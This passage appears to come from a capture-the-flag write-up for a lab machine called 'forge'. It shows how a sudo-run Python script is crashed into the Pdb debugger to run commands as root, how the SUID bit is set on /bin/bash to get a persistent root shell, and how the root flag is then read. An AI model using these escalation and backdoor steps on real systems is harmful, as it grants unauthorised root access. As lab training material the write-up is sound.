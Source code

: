 ```
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:14562
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import os
(Pdb) os.system("whoami")
root
0
```

We could now already read the root flag but let's quickly get an actual shell as the root user by giving bash the suid bit.

```
(Pdb) os.system("chmod +s /bin/bash")
0
(Pdb) exit
user@forge:~$ bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```


